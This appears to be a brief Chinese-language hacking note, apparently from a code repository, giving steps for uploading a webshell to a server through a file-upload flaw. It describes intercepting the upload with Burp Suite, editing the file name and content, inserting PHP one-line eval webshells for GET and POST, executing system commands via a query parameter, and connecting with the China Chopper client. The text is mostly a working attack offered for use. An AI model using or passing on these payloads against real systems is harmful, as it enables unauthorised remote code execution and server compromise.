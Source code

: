 #上传一个webshell到服务器

##1、通过burpsuite代理抓包，将上传内容的包send to Repeater 
##2、查看Request 修改上传文件名和内容
##3、写入一句话  <?php eval($_GET['pass']);?>
##
?pass=system("ls");              执行代码 


###4、写入一句话  <?php eval($_POST['pass']);?>
#可用 中国菜刀 shell
